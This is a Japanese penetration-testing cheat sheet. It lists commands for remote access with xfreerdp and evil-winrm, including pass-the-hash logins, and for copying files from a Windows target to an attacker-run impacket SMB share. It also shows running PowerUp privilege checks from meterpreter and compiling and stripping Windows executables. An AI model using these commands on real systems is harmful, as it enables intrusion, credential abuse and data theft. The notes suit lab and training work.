 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 /cert:ignore　+clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:90% /cert:ignore +clipboard

xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:90% +clipboard

# remmina (GUI)。非常に安定して使いやすい。
sudo apt install remmina
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>

evil-winrm -i <ip> -u "<domain\user>" -H <hashvalue>
```

### SSH

```shell
ssh <domain>\\<user>@<ip>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
# username と password は省略可
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

## コンパイル

```shell
apt install mingw-w64

# c
i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

# cpp
i686-w64-mingw32-g++ calc.cpp -o calc-MSF.exe

# シンボル削除
strip --strip-all aaa.exe
x86_64-w64-mingw32-strip --strip-all aaa.exe
```

## LOLBAS

Living Off The Land Binaries, Scripts and Libraries

https://lolbas-project.github.io/
